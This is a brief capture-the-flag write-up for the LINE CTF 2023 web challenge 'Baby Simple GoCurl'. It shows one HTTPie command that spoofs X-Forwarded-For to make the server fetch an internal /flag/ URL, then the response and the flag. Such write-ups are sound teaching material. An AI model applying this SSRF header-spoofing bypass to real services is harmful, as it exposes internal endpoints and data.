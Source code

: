# LINE CTF 2023 - Web - Baby Simple GoCurl

A typical bypass technique using `X-Forwarded-For`:

```
$ http "http://34.146.230.233:11000/curl/?url=http://127.0.0.1:8080/flag/" X-Forwarded-For:127.0.0.1
HTTP/1.1 200 OK
Content-Length: 90
Content-Type: application/json; charset=utf-8
Date: Mon, 27 Mar 2023 16:08:58 GMT

{
    "body": "{\"message\":\"= LINECTF{6a22ff56112a69f9ba1bfb4e20da5587}\"}",
    "status": "200 OK"
}
```

## Flag

```
LINECTF{6a22ff56112a69f9ba1bfb4e20da5587}
```
